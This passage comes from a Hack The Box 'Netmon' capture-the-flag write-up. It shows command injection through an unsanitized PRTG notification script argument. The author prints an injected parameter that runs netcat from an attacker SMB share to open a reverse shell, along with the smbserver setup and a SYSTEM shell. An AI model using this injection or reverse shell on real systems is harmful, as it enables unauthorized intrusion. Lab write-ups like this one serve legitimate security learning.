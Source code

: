 ```
   }
}
```

We can see that in the line `$Text | out-File $Args[0];`

The argument we give is not sanitized. 

out-File sends output to a file. So we send the output to a file, and then we can choose to continue the command by adding a ; after, which says that command is over. After this we can add our own commands.


I set the Program file to `Demo exe notification - outfile.ps1` and add this as the parameter:

`test.txt;\\10.10.14.60\smb\nc.exe -e cmd 10.10.14.60 1337`

We give the valid input with test.txt, and then run another command after that. This command just uses netcat from my smbserver to connect back to my listener.

I set up the smbserver to run the netcat binary:

```
kali@kali:~/htb/Netmon$ sudo smbserver.py smb .
Impacket v0.9.22.dev1+20200819.170651.b5fa089b - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

And then test the notification:

```
kali@kali:~/htb/Netmon$ sudo rlwrap nc -nlvp 1337
Listening on 0.0.0.0 1337
Connection received on 10.129.1.126 49814
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

C:\Windows\system32>
```


## Comparing myself to the official writeup:

The official writeup generally used the same methods I used. 

They also added a secondary way to gain entrance however.
